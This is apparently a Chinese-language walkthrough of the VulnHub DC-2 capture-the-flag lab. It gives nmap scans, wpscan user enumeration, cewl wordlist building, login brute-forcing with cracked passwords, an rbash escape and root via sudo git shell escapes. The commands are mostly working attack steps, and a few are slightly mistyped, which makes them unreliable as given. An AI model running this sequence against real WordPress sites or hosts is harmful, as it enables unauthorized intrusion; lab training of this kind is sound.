


## 复盘 *

## 靶机地址：

[DC: 2 ~ VulnHub](https://www.vulnhub.com/entry/dc-2,311/)


## 信息收集


### 主机探活

```
nmap -sP 192.168.56.0/24
```


确定靶机ip：192.168.56.149


### 扫描目标主机开放端口

```
nmap -sS -Pn -sV -p- 192.168.56.149
```


开放了：

- 80 http服务
- 7744 ssh服务


### 访问192.168.56.149


失败，重定向到dc-2


### 添加本地hosts解析

```
kali：/etc/hosts
windows：C:\Windows\System32\drivers\etc\hosts

添加：
192.168.56.149 dc-2
```


### 重新访问192.168.56.149



成功


### Wappalyzer识别指纹信息


CMS：Wordpress 4.7.10


### 拿到第一个flag


```
Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
More passwords is always better, but sometimes you just can’t win them all.
Log in as one to see the next flag.
If you can’t find it, log in as another.

你通常的词汇表可能不适用，所以也许你只需要保持冷静。
更多的密码总是更好，但有时你就是无法赢得全部。
以一个身份登录以查看下一个标志。
如果你找不到它，就以另一个身份登录。
```

其中cewl可能提示利用cewl获取字典


### 利用cewl获取字典

```
cewl http://dc-2.com > dic
cat dic
```


### 利用wpscan进行用户名枚举

```
wpscan --url http://dc-2/ -e u
```


得到三个用户

```
admin
jerry
tom
```


### 将三个用户添加到user.txt 文件

```
cat >> user.txt << EOF
heredoc> admin
heredoc> jerry
heredoc> tom
heredoc> EOF
```


### 利用dirsearch进行目录扫描

```
dirsearch -u 192.168.56.149
```


得到网站后台登录页面

- wp-login.php


### 利用wpscan爆破后台

```
wpscan --url http://dc-2 -U user.txt -P dic
```


爆破失败


怀疑是字典问题

后来发现没有将所有文字提取


### 重新利用cewl生成字典

```
 cewl http://dc-2/index.php/what-we-do/>> dic
 cewl http://dc-2/index.php/our-people/>> dic
 cewl http://dc-2/index.php/our-products/>>dic
```


### 处理字典

```
cat dic|sort|uniq|sort -nr>dic
```


### 重新利用wpscan爆破

```
wpscan --url http://dc-2 -U user.txt -P dic
```


成功爆破出两个用户

```
tom：parturient
jerry：adipiscing
```


### 尝试登录后台


两个都可以


### 得到第二个flag


7 Pages页面对tom不可读

jerry可读


```
If you can't exploit WordPress and take a shortcut, there is another way.
Hope you found another entry point.

如果你无法利用WordPress并走捷径，还有另一种方法。
希望你找到了其他的入口点。
```


### 尝试ssh登录

```
ssh tom@192.168.56.149 -p 7744
```


成功登录tom


```
ssh jerry@192.168.56.149 -p 7744
```


登录jerry失败


### 得到第三个flag



尝试读取flag3.txt失败

提示-rbash cat命令未找到，即我们处在受限终端


### 绕过-rbash

```
BASH_CMDS[a]=/bin.sh;a
export PATH=$PATH:/bin
```


### 读取第三个flag

```
cat flag3.txt
```


提示su


### 切换到jerry

```
su - jerry
```


### 得到第四个flag

```
cd /home/jerry
ls
cat flag4.txt
```


```
Good to see that you've made it this far - but you're not home yet.
You still need to get the final flag (the only flag that really counts!!!).
No hints here - you're on your own now.  :-)
Go on - git outta here!!!!

很高兴看到你走到了这里——但你还没到家。
你仍然需要获得最后的标志（唯一真正重要的标志！！！）。
这里没有提示——现在你得靠自己了。 :-)
继续吧——快离开这里!!!!
```

提示git命令


## 提权


### 执行sudo -l

```
sudo -l
```


提示可以无密码执行git


### git提权

```
sudo git -p help config 
!/bin/sh
whoami
```


或者

```
sudo git branch --help config
!/bin/sh
```


或者

```
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```


### 读取最后一个flag

```
cd /root
ls
cat /final-flag.txt
```


